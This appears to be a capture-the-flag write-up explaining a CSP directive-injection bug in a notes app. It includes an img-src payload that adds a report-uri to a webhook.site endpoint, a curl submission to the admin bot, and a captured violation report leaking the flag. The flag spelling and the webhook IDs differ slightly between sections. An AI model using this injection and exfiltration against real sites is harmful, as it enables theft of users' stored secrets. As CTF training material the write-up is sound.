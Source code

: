
# SUPER-SECRET-NOTES : WRITE-UP

The application starts with a basic CSP configuration:
```javascript
const csp = [
    "default-src 'none'",
    "style-src 'unsafe-inline'",
    "script-src 'unsafe-inline'"
];
```

When a user provides a `note` parameter, the application extracts `src` attributes and adds them to the CSP:
```javascript
if (trustedDomains.length) {
    csp.push(`img-src ${trustedDomains.join(' ')}`);
}
```

## Understanding the Sandbox Implementation
Here is the sandbox implementation where you might think that we have to by pass this inorder to get the flag 

```javascript
const frame = document.createElement('iframe');
frame.srcdoc = note;
frame.sandbox = '';  // Empty sandbox = maximum restrictions
```

An empty sandbox attribute applies all restrictions, including:
- JavaScript execution prevention
- localStorage access blocking
- Form submission prevention
- Top-level navigation blocking

before seeing why we dont need to by pass the sandbox iframe lets see what the required-trusted-types-for directive does 


The require-trusted-types-for 'script' directive enforces runtime checks on DOM XSS injection sinks. When we inject this directive through our payload, it forces the browser to validate all string-to-script assignments against a Trusted Types policy.

```javascript
const secret = localStorage.getItem('flag');
document.getElementById('secret').innerHTML = secret;
```

This innerHTML assignment becomes our exfiltration point because , The main page reads the flag from localStorage and it then attempts to assign the flag value directly to innerHTMLbut now Without a Trusted Type policy defined, this assignment violates the CSP ,this cspviolation triggers a report containing the flag value

## Why Sandbox Bypass Isn't Required

The exploit succeeds without breaking the sandbox because:

The attack vector operates entirely in the main page context. The main page contains the code that reads localStorage and assigns to innerHTML. While our payload is delivered through the sandboxed iframe, the actual exploitation happens outside it.

```javascript
//injected csp 
csp.push(`img-src *; require-trusted-types-for 'script'; report-uri https://webhook.site/[ID]`);

// this gets exectued outside the sandbox 
const secret = localStorage.getItem('flag');
document.getElementById('secret').innerHTML = secret;
//which inturn results in a csp violation which gets sent to the report uri with the flag 
```

## STEPS
1. We send our payload:
```html
<img src="*; require-trusted-types-for 'script'; report-uri https://webhook.site/[ID]">
```

2. The server constructs a CSP that includes our injected directives:
```
default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; require-trusted-types-for 'script'; report-uri https://webhook.site/[ID]
```

3. When the admin bot visits:
   The main page loads with our modified CSP
   The bot sets the flag in localStorage
   The page reads the flag and attempts the innerHTML assignment
   The assignment violates Trusted Types policy
   The violation report containing the flag is sent to our webhook

## More into the CSP construction 

The vulnerability stems from string concatenation in CSP construction. The application joins trusted domains with spaces:
```javascript
csp.push(`img-src ${trustedDomains.join(' ')}`);
```

When we inject a semicolon in our src attribute, it breaks out of the img-src directive:
```javascript
// Our input
src="*; require-trusted-types-for 'script'; report-uri https://webhook.site/[ID]"

// Becomes part of CSP
img-src *; require-trusted-types-for 'script'; report-uri https://webhook.site/[ID]
```

This effectively adds new CSP directives that the application never intended to include.

## Submitting the constrcuted payload to the bot 

```bash
  curl -X POST https://bot1.ctf.prgy.in/submit \
    -H "Content-Type: application/json" \
    -d '{"url":"https://secretnotes.ctf.prgy.in/?note=&note=%3Cimg%20src=%22*;%20require-trusted-types-for%20%27script%27;%20report-uri%20https://webhook.site/b2713cd0-1ca0-4d4c-aa0a-6182a7a65be5%22%3E"}'
```
which gives the csp report in the webhook url to be 

```bash
{
  "csp-report": {
    "document-uri": "https://secretnotes.ctf.prgy.in/?note=&note=%3Cimg%20src=%22*;%20require-trusted-types-for%20%27script%27;%20report-uri%20https://webhook.site/85503685-ac6d-451d-838b-5e49ec9eb8f5%22%3E",
    "referrer": "",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src *; require-trusted-types-for 'script'; report-uri https://webhook.site/85503685-ac6d-451d-838b-5e49ec9eb8f5",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 135,
    "column-number": 57,
    "source-file": "https://secretnotes.ctf.prgy.in/",
    "status-code": 200,
    "script-sample": "Element innerHTML|pctf{1_l0v3_3c9_1n63ct10n}"
  }
```
Thus we get the flag 
```bash
p_ctf{1_l0v3_3c9_1n63ct10n}
```
